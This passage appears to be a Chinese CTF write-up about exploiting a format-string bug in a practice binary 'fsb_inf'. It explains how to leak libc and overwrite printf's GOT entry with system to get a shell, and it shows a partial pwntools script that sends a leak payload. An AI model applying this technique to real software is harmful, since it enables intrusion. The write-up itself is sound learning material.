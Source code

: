 `./dump 相应的libc版本`就可以了

<img src="/images/posts/fmt1/1523725549722.png" >

但是我这个比较特殊，因为还没有收集好大部分的libc库，所以没有办法找到对应的地址，如果大佬们有方法可以找到所有地址，还请大佬可以告诉我[期待的小眼神]。这里是少了2.24的

<img src="/images/posts/fmt1/1523725684204.png" >

那我们就可以导入本地库函数：

<img src="/images/posts/fmt1/1523725745724.png" >

这样就可以了。。。

有个system地址，剩下的内容就跟第一题差不多了，先写好got表，这里写printf的got表，因为puts的参数已经是一串给定的字符，没有办法更改来传参，所以直接用printf来做，下一次循环进来再直接给一个`/bin/sh\x00`参数运行即可getshell。

上脚本：
```
from pwn import *

p = process('fsb_inf') #env = {'LD_PRELOAD':'./libc.so.6'}
#libc = ELF('libc.so.6')
elf = ELF('fsb_inf')

def s_sub(a,b):
    if a<b:
       return 0x10000 + a - b 
    return a - b 

payload = ""
payload += "%78$p.%79$p.%80$p" 

p.recv()
p.sendline(payload)
p.recvuntil(".")
libc_start_main_ret = int(p.recvuntil(".",drop = True),16)

print hex(libc_start_main_ret)
```